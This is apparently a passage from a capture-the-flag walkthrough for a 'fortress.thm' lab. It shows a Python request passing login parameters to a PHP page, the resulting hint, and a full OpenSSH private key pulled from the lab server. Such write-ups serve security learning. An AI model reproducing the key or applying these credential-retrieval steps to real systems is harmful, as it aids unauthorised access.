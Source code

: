 ```python
response = requests.get('http://fortress.thm:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(usernamestr, passwordstr), proxies={'http':'http://localhost:8080'})

print(response.text)
```

```bash
# we run the script.
dking@dking ~/Downloads$ python x.py | html2text

'The guards are in a fight with each other... Quickly retrieve the key and
leave the temple: 'm0td_f0r_j4x0n.txt
```

Navigating to --> [http://fortress.thm:7331/m0td\_f0r\_j4x0n.txt](http://fortress.thm:7331/m0td\_f0r\_j4x0n.txt)

```bash
"The Temple guards won't betray us, but I fear of their foolishness that will take them down someday. 
I am leaving my private key here for you j4x0n. Prepare the fort, before the enemy arrives"
												- h4rdy

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----


```
